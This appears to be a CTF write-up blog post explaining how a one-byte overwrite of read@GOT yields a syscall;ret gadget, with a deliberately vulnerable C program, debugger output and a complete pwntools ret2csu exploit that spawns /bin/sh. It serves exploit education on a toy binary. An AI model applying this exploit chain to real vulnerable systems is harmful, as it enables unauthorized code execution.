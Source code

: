 ```yaml
---
draft: false
date: 2019-11-29T17:03:16+01:00
title: "From read@GLIBC to RCE in X86_64"
description: "New technique for Arbitrary Code Execution only by using the `read` function from libc."
slug: "from-read-glibc-to-rce-x86_64"
authors: ["Oussama Amri"]
tags: ["linux", "exploit", "rce", "buffer-overflow"]
categories: []
externalLink: ""
series: []
aliases: ["/post/from-read-glibc-to-rce-x86_64/"]
---
```


While playing some pwn in **HackZone** CTF, i figured out a new technique for Arbitrary Code Execution only by using the `read` function from libc.

## TL;DR
It's almost impossible for a security research to exploit a binary only with Arbitrary Write, because in real world you need to leak some data (Specially when ASLR is enabled) and then jump to the right place. However i got an idea of how to get RCE using only read@GLIBC (`Arbitrary Write`) on a X86_64 platform.

## PWN.c
```c
// gcc -fno-stack-protector -no-pie pwn.c -o pwn
#include <stdio.h>
#include <stdlib.h>

int main(){
    char buf[100];
    read(0, &buf, 500);
}
```
Following this code, we will be compiling it and try to exploit it using our method!

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

As we can see the GOT table is writable, so this will help us to overwrite the read@GOT but the problem is what kind of data we'll using it to overwrite the read@GOT since we don't have the ability to leak address and ASLR is enable!

## Read@GOT
```shell
root@kali:~# objdump -R ./pwn

./pwn:     file format elf64-x86-64

DYNAMIC RELOCATION RECORDS
OFFSET           TYPE              VALUE 
0000000000403ff0 R_X86_64_GLOB_DAT  __libc_start_main@GLIBC_2.2.5
0000000000403ff8 R_X86_64_GLOB_DAT  __gmon_start__
0000000000404018 R_X86_64_JUMP_SLOT  read@GLIBC_2.2.5

```
```shell
gdb-peda$ x/g 0x404018
0x404018 <read@got.plt>:        0x00007ffff7ee2850
```
In our example the address `0x404018` in the GOT table points to the address of `read@GLIBC_2.2.5` in libc.

## Read@GLIBC

```nasm
gdb-peda$ disassemble read 
Dump of assembler code for function __GI___libc_read:
   0x00007ffff7ee2850 <+0>:     lea    rax,[rip+0xd3b79]
   0x00007ffff7ee2857 <+7>:     mov    eax,DWORD PTR [rax]
   0x00007ffff7ee2859 <+9>:     test   eax,eax
   0x00007ffff7ee285b <+11>:    jne    0x7ffff7ee2870 <__GI___libc_read+32>
   0x00007ffff7ee285d <+13>:    xor    eax,eax
   0x00007ffff7ee285f <+15>:    syscall 
   0x00007ffff7ee2861 <+17>:    cmp    rax,0xfffffffffffff000
   0x00007ffff7ee2867 <+23>:    ja     0x7ffff7ee28c0 <__GI___libc_read+112>
   0x00007ffff7ee2869 <+25>:    ret    
   0x00007ffff7ee286a <+26>:    nop    WORD PTR [rax+rax*1+0x0]
   0x00007ffff7ee2870 <+32>:    sub    rsp,0x28
   0x00007ffff7ee2874 <+36>:    mov    QWORD PTR [rsp+0x18],rdx
   0x00007ffff7ee2879 <+41>:    mov    QWORD PTR [rsp+0x10],rsi
   0x00007ffff7ee287e <+46>:    mov    DWORD PTR [rsp+0x8],edi
   0x00007ffff7ee2882 <+50>:    call   0x7ffff7efe570
   ...

```
Following the assembler code for function **read@GLIBC**, we can see that the first `syscall` instruction is only 15bit from the first instruction followed by `ret` which is only 45bit from the first instruction.

> One byte overwrite in the read@GOT can create a gadget of `syscall; ret`

## Summarize

{{< figure src="/img/from-read-glibc-to-rce-x86_64/read_got.png" >}}

### PWN

To summarize all the steps to exploit the binary, what we need to do is :

1. We need to use `ret2csu` technique in order to control the RDI, RSI and RDX.
2. Using the read function to write `/bin/sh` in the `.bss` section.
3. Overwrite the `read@GOT` with one byte `0x5f` in order for the read function to point in the `syscall` instruction.
4. Because we overwrite with `one` byte, that's mean the `RAX` is equal to `1`.
5. The RAX register is equal to 1 and the read function is pointing in syscall instruction. That's mean we have a `write` function.
6. Using the write function, we will read `0x3b` size of arbitrary data from (.text or .bss) in order for the RAX to be equal to 0x3b (`sys_execve`).
7. Now we have `RAX` equal to `0x3b` and we have `/bin/sh` in the memory, all what we need to do is to fire a `syscall`.
8. We got a shell.

### Exploit
```python
from pwn import *

p = process('./pwn')

read_got    = p64(0x404018) # read@got
read_plt    = p64(0x401030) # read@plt
str_bin_sh  = p64(0x404100) # 0x00404000 (bss) + 0x100
text        = p64(0x401000) # .text section
csu_init1   = p64(0x4011a2) # pop rbx
csu_init2   = p64(0x401188) # mov rsi, r13
csu_fini    = p64(0x4011b0) # ret
sys_execve  = p64(0x3b)
null        = p64(0x0)
one         = p64(0x1)
zero        = p64(0x0)
stdin       = p64(0x0)
stdout      = p64(0x1)
junk        = 'JUNKJUNK'
bin_sh      = '/bin/sh\x00'
len_bin_sh  = p64(len(bin_sh))

def ret2csu(func_GOT, rdi, rsi, rdx):
    ret_csu  = zero      # pop rbx
    ret_csu += one       # pop rbp
    ret_csu += rdi       # pop r12
    ret_csu += rsi       # pop r13
    ret_csu += rdx  # pop r14
    ret_csu += func_GOT  # pop r15
    ret_csu += csu_init2 # ret
    ret_csu += junk      # add rsp,0x8
    return ret_csu

crash = 'A' * 120

# Write '/bin/sh' in str_bin_sh
rop  = csu_init1
rop += ret2csu(read_got, stdin, str_bin_sh, len_bin_sh)

# Overwrite read@got with one_byte
rop += ret2csu(read_got, stdin, read_got, one)

# Read arbitrary data in order to gt 0x3b in RAX
rop += ret2csu(read_got, stdout, text, sys_execve)

# sys_execve('/bin/sh')
rop += ret2csu(read_got, str_bin_sh, null, null)

payload = crash + rop

exploit = payload.ljust(500, 'A')
p.send(exploit)
p.send(bin_sh)
p.send('\x5f')
garbage = p.recv()
p.interactive()

```
### Download
* [read_glibc.zip](/files/from-read-glibc-to-rce-x86_64/read_glibc.zip)
</br>
